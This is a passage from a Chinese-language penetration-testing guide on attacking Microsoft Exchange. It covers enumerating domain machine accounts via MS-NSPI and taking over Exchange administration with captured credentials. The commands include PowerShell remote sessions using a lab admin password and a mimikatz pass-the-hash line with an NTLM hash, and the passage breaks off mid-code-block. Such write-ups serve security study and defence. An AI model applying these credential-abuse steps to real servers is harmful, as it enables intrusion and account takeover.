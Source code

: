 在实战中，如果已经在域内了，这个手法的使用意义不大，因为 `[MS-NSPI]` 返回的 X.500 属性不像 AD 中的那么全，不能等同于 LDAP。但是如果在域外或者是直接攻击互联网上的 Exchange，可以搜索 objectSid 来发现域内机器账户，配合 /Microsoft-Server-ActiveSync 遍历主机名查询共享文件。

---

### 管理 Exchange

#### 已有高权限域账号

通常创建 Exchange 的那个域账号会被加入 Exchange Organization Administrators 或 Organization Management 组（不同版本组名不同），如果拿到该组成员的凭证，可以使用 /PowerShell 接口对 Exchange 进行远程管理。
```bash
# 设置明文凭证并连接
$User = "island.com\enterprise_admin"
$Pass = ConvertTo-SecureString -AsPlainText EA@123qwe -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri https://win2012-ex2016.island.com/PowerShell -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber

# 测试是否成功
Get-Mailbox

# 删除连接
Remove-PSSession $Session
```

如果没有明文密码，只有 Hash，可以用 mimikatz pth。
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:enterprise_admin /domain:island.com /ntlm:d81a42dfacbaf5e346eb9a072773309d /run:powershell" exit
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri https://win2012-ex2016.island.com/PowerShell
Import-PSSession $Session -AllowClobber
最好域内操作，走代理可能报错。
```

#### 已有 Exchange 服务器权限

拿到服务器权限后，有两种方式对 Exchange 进行管理。

1. 通过 Exchange Management Shell 进行管理

    这是一个封装好的 .ps 脚本，其原理也是使用 /PowerShell 接口对 Exchange 进行远程管理，默认使用当前凭证创建 PSSession。

2. 打开 Powershell 加载网络管理单元，不同版本 Exchange 加载语句不同：
    ```bash
    # Exchange 2007
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;

    # Exchange 2010
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;
